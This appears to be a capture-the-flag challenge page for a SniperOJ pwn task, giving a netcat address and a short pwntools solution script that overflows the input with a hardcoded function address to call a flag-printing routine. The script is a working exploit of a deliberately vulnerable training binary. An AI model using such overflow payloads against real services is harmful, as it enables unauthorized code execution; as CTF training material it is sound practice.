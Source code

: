 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20002

#### Solution
```python
#!/usr/bin/env python

from pwn import *

context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) == 3:
    host = sys.argv[1]
    port = int(sys.argv[2])
    Io = remote(host, port)
else:
    Io = process("./pwn")

cat_flag_addr = p64(0x0000000000400616)
payload = cat_flag_addr * 4
Io.send(payload)
Io.interactive()
```

#### Writeups
 * TODO

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（wangyihanger@gmail.com）
